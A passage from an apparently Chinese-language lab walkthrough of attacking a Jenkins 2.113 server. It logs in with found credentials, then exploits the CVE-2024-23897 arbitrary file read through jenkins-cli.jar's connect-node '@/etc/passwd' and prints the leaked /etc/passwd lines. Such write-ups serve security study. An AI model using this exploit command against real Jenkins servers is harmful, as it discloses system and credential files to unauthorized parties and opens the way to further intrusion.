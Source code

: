 - 先访问nmap扫描出来的`robots.txt` ,获得以下内容
    
    ```php
    # we don't want robots to click "build" links
    User-agent: *
    Disallow: /
    ```
    
    感觉也没啥利用的
    
- 回到登陆页面，尝试使用之前获得的用户信息登录
    
    发现 `eder:vipsu` 可以登录进去
    
- 进入后台，仔细挖掘一些有用的设置
    
    `Jenkins CLI , 脚本命令行 , 系统信息` 等都是我们感兴趣的
    
    ![image.png](image%2010.png)
    
    进入`关于jenkins` ，发现版本是 `2.113`
    

## 漏洞利用

- 查阅信息，发现存在任意文件读取 **CVE-2024-23897，**我们尝试利用
    
    > [https://blog.csdn.net/qq_34594929/article/details/136446671](https://blog.csdn.net/qq_34594929/article/details/136446671)
    > 
- 进入`Jenkins CLI` ，下载 `Jenkins-cli.jar`
- 然后到 `管理Jenkins` →`全局安全设置` →`勾选匿名用户具有可读权限`
- 打开kali命令行输入，获得`/etc/passwd`
    
    ```php
    java -jar jenkins-cli.jar -s http://192.168.75.135:8080 connect-node '@/etc/passwd'
    //
    icked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin: No such agent "ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin" exists.
    systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin: No such agent "systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin" exists.
    daemon:x:2:2:daemon:/sbin:/sbin/nologin: No such agent "daemon:x:2:2:daemon:/sbin:/sbin/nologin" exists.
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin: No such agent "lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin" exists.
    root:x:0:0:root:/root:/bin/bash: No such agent "root:x:0:0:root:/root:/bin/bash" exists.
    jenkins:x:997:995:Jenkins Automation Server:/var/lib/jenkins:/bin/false: No such agent "jenkins:x:997:995:Jenkins Automation Server:/var/lib/jenkins:/bin/false" exists.
    adm:x:3:4:adm:/var/adm:/sbin/nologin: No such agent "adm:x:3:4:adm:/var/adm:/sbin/nologin" exists.
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown: No such agent "shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown" exists.
    sync:x:5:0:sync:/sbin:/bin/sync: No such agent "sync:x:5:0:sync:/sbin:/bin/sync" exists.
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin: No such agent "mail:x:8:12:mail:/var/spool/mail:/sbin/nologin" exists.
    dbus:x:81:81:System message bus:/:/sbin/nologin: No such agent "dbus:x:81:81:System message bus:/:/sbin/nologin" exists.
    postfix:x:89:89::/var/spool/postfix:/sbin/nologin: No such agent "postfix:x:89:89::/var/spool/postfix:/sbin/nologin" exists.
    operator:x:11:0:operator:/root:/sbin/nologin: No such agent "operator:x:11:0:operator:/root:/sbin/nologin" exists.